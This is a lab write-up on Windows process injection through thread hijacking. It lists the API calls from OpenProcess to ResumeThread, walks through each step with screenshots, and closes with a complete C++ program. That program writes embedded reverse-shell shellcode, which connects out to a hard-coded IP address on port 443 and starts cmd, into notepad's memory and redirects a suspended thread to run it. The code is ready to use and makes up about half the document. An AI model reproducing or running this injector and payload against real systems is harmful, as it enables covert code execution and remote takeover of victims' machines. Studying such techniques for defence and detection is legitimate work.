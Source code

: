 # Injecting to Remote Process via Thread Hijacking

This is a quick lab that looks at the API sequence used by malware to inject into remote processes by leveraging a well known thread hijacking technique.

## Overview

Below lists the API calls that are required to execute this technique:

1. Open a handle `targetProcessHandle` to the process \(notepad in our case\) we want to inject to with `OpenProcess`
2. Allocate some executable memory `remoteBuffer` in the target process with `VirtualAllocEx`
3. Write shellcode we want to inject into the memory `remoteBuffer` \(allocated in step 2\), using `WriteProcessMemory`
4. Find a thread ID of the thread we want to hijack in the target process. In our case, we will fetch the thread ID of the first thread in our target process \(notepad\). We will leverage `CreateToolhelp32Snapshot` to create a `snapshot` of target process's threads and eumerate them with `Thread32Next`. This will give us the thread ID we will be hijacking.
5. Open a handle `threadHijacked` to the thread to be hijacked using `OpenThread`
6. Suspend the target thread - the thread we want to hijack \(`threadHijacked`\) with `SuspendThread`
7. Retrieve the target thread's context with `GetThreadContext`
8. Update the target thread's \(retrieved in step 6\) instruction pointer \(`RIP` register\) to point to the shellcode, which was written into the target process's memory in step 3 using `WriteProcessMemory`
9. Commit the hijacked thread's \(upadated in step 7\) new context with `SetThreadContext`
10. Resume the hijacked thread with `ResumeThread`
11. Enjoy the reverse shell

## Walkthrough

Steps 1-3 of the technique overview are self-explanatory and have been covered in more detail in my notes in [Code & Process Injection](./) section.

In step 4, what happens is that we simply find our target process's \(notepad\) main thread ID as seen in the below image:

![](../../.gitbook/assets/image%20%28619%29.png)

In step 5, a handle to that thread `14100` is opened with:

```cpp
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, 14100);
```

![](../../.gitbook/assets/image%20%28594%29.png)

In step 6, that thread \(TID `14100`\) with handle `threadHijacked` is suspended with

```cpp
SuspendThread(threadHijacked);
```

![](../../.gitbook/assets/image%20%28617%29.png)

In step 7, we retrieve the hijacked thread's context, which contains CPU registers at that time, among other things. We need to capture the context, since we will be updating the hijacked thread's instruction pointer RIP in steps 8 and 9, and we do not want the hijacked process to crash once we resume it:

![](../../.gitbook/assets/image%20%28564%29.png)

After executing steps 8 and 9, the hijacked thread's RIP is now pointing to the shellcode in our target process notepad.exe memory location `0x000002736ccf0000`:

![](../../.gitbook/assets/image%20%28612%29.png)

![](../../.gitbook/assets/image%20%28545%29.png)

In step 10, once the hijacked thread \(`threadHijacked`\) is resumed, the shellcode is executed and a reverse shell is executed:

![](../../.gitbook/assets/image%20%28553%29.png)

Below shows the technique in action:

![](../../.gitbook/assets/thread-hijacking.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
		"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
		"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
		"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
		"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
		"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
		"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
		"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
		"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
		"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
		"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
		"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
		"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
		"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
		"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
		"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
		"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
		"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
		"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
		"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
		"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
		"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;
	
	DWORD targetPID = 15048;
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);
	
	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}
	
	SuspendThread(threadHijacked);
	
	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);
	
	ResumeThread(threadHijacked);
}
```

